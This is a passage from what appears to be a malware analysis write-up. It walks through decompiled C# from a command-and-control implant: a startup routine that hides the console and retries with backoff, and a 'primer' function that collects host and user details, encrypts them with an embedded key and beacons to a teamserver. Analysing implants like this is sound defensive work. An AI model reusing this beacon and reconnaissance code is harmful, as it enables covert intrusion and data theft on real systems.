 ```cs
public static void Sharp(long baseAddr = 0L)
{
	Program.DllBaseAddress = new IntPtr(baseAddr);
	if (!string.IsNullOrEmpty("") && !Environment.UserDomainName.ToLower().Contains("".ToLower()))
	{
		return;
	}
	IntPtr consoleWindow = Program.GetConsoleWindow();
	Program.ShowWindow(consoleWindow, 0);
	Program.AUnTrCrts();
	int num = 30;
	int num2 = 60000;
	ManualResetEvent manualResetEvent = new ManualResetEvent(false);
	while (true && num > 0)
	{
		try
		{
			Program.primer();
			break;
		}
		catch
		{
			num--;
			manualResetEvent.WaitOne(num2);
			num2 *= 2;
		}
	}
	IntPtr currentThread = Program.GetCurrentThread();
	Program.TerminateThread(currentThread, 0U);
}
```

This function looks like it's checking if it's safe to execute. If there's a username, and we can reach out to the C2 server, we will continue execution, otherwise we wait and try 30 more times. The `primer()` function comes next, where there's two main parts that we care about. You can see full decompiles of some important functions in the Appendix.

The first part makes a web request to the teamserver.

```cs
string userDomainName = Environment.UserDomainName;
string environmentVariable = Environment.GetEnvironmentVariable("COMPUTERNAME");
string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
int id = Process.GetCurrentProcess().Id;
string processName = Process.GetCurrentProcess().ProcessName;
Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
string text2 = null;
string text3 = null;
foreach (string text4 in Program.basearray)
{
	string text5 = string.Format("{0};{1};{2};{3};{4};{5};1", new object[] { userDomainName, text, environmentVariable, environmentVariable2, id, processName });
	string text6 = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
	text3 = text4;
	string text7 = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
	try
	{
		string text8 = Program.GetWebRequest(Program.Encryption(text6, text5, false, null)).DownloadString(text7);
		text2 = Program.Decryption(text6, text8);
		break;
	}
	catch (Exception ex)
	{
```